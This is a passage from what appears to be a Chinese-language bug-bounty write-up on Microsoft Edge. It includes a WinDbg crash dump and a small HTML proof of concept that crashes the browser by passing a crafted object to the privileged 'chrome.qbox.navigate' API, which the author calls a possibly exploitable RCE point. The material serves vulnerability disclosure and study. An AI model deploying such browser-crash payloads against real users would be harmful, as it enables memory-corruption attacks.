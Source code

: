 我猜测这里可能出现了`NULL`指针引用（意味着通常我们很难利用这种情况，但我相信凡事总有例外）。

```
rax=000001ff5651ba80 rbx=000001ff5651ba80 rcx=000001ff5651ba80
rdx=3265727574786574 rsi=000001ff5651ba80 rdi=0000009eb9bfd4f0
rip=00007ffd17814b40 rsp=0000009eb9bfd300 rbp=000001ff4fec30a0
 r8=000000000000008f  r9=0000000000000040 r10=0000000000000080
r11=0000009eb9bfd290 r12=000000000000006f r13=0000009eb9bfda90
r14=0000009eb9bfd478 r15=00000094b5d14064
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010206
msedge!ChromeMain+0x9253e:
00007ffd`17814b40 488b02          mov     rax,qword ptr [rdx] ds:32657275`74786574=????????????????
Resetting default scope

FAULTING_IP: 
msedge!ChromeMain+9253e
00007ffd`17814b40 488b02          mov     rax,qword ptr [rdx]

EXCEPTION_RECORD:  (.exr -1)
ExceptionAddress: 00007ffd17814b40 (msedge!ChromeMain+0x000000000009253e)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 0000000000000000
   Parameter[1]: ffffffffffffffff
Attempt to read from address ffffffffffffffff

DEFAULT_BUCKET_ID:  INVALID_POINTER_READ

PROCESS_NAME:  msedge.exe
```

根据上述信息，我们似乎找到了可利用的一个点。我在内存bug方面经验不够丰富，因此只能参考[MDN文档](https://developer.mozilla.org/en-US/docs/Mozilla/Security/Exploitable_crashes)来了解这方面内容。多次测试高权限下存在缺陷的`qbox.navigate`函数后，我成功复现了不同的崩溃特征，这表明我基本上能够通过web成功拿到一个可利用的崩溃点（RCE）。这已经非常接近于实战型PoC了（利用崩溃点是完全不同的另一个话题），目前我们能通过如下代码导致浏览器崩溃：

```
&lt;html&gt;
&lt;head&gt;
&lt;title&gt;test&lt;iframe/src=1/ onload=chrome.qbox.navigate(JSON.parse(unescape("%7B%22id%22%3A999999%2C%22url%22%3Anull%7D")))&gt;&lt;/title&gt;
&lt;body&gt;
q
&lt;/body&gt;
&lt;/html&gt;
```

微软确认了这个问题，并且同时确认了前面提到的XSS bug，通过这两个bug，我总共拿到了25,000美元。因此从技术上来讲，我已经在新版Edge中率先找到了2个bug！



## 0x03 控制NTP页面
